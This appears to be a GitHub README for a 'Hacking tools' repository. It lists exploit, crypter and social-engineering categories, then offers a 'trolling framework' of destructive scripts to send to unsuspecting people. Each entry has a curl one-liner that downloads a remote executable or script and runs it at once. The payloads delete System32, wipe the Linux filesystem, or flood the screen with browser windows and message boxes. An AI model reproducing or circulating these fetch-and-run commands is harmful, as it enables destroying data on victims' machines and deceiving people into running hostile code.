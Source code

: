 # Hacking tools
#### Penetration testing and ethical hacking toolkit.

##### 🛡 Exploitation - various archived CVE exploits

##### 🔑 Cryptography - encryption and decryption tools, cipher recognizing tools

##### 🕶 Anonymizing - proxy scrapers, tor scripts and openvpn configs

##### ⚙ Social engineering - forked social engineering framework, some other handy tools 

##### 💻 Hardware hacking - tutorials how-to do stuff like bad usb

##### 🗃 File manipulation - file binders, crypters and much more .net and others

##### 🛠 Reverse engineering - forked popular reverse engineering frameworks and links to professional courses

<a href="https://ibb.co/q5QLKhT"><img src="https://i.ibb.co/X8Rf16c/ezgif-com-gif-maker-1.gif" alt="ezgif-com-gif-maker-1" border="0"></a>
Psst, scroll down.

## Trolling framework
Build to make fun off script kiddies that will execute any code you send them without inspection, use for fun but do not harm.
These scripts are really poorly coded, but friend gave me 24 hours so Im trying to make as much as possible, expect improvement in the future.
This little 'project' was made because I wanted to excercise in as many languages as possible.

### Windows platform
#### 1 (C#) - Blank screen that you can remember from Async rat, I've made own and it doesnt break your pc when you restart it
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/1/script.exe?raw=true -o script.exe & script.exe```
#### 4 (Python) - while True: webbrowser.open('https://pornhub.com'), with 4 threads it was able to break pc, lowered to 2 threads
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/4/script.exe?raw=true -o script.exe & script.exe```
#### 5 (Golang) - Classic infinite messagebox with 'You have been hacked!' message
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/5/script.exe?raw=true -o script.exe & script.exe```
#### 6 (Batch) - Deleting Sys32 😀
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/6/script.bat?raw=true -o script.bat & script.bat```
### Linux platform
#### 2 (Node.js) - Downloads p0rn in every available directory (not compiled yet)
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/2/script.js?raw=true -o script.js; node script.js```
#### 3 (Bash) - Rickrolling while deleting whole filesystem, use when escaping feds, death to whoever launches this without looking at the code 😂
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/3/script.sh?raw=true -o script.sh; chmod+x script; ./script.sh```
#### 4 (Python) - while True: webbrowser.open('https://pornhub.com'), with 4 threads it was able to break pc, lowered to 2 threads
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/4/script.bin?raw=true -o script.bin; chmod+x script.bin; ./script.bin```
#### 7 (Java) - Blank screen, coming soon


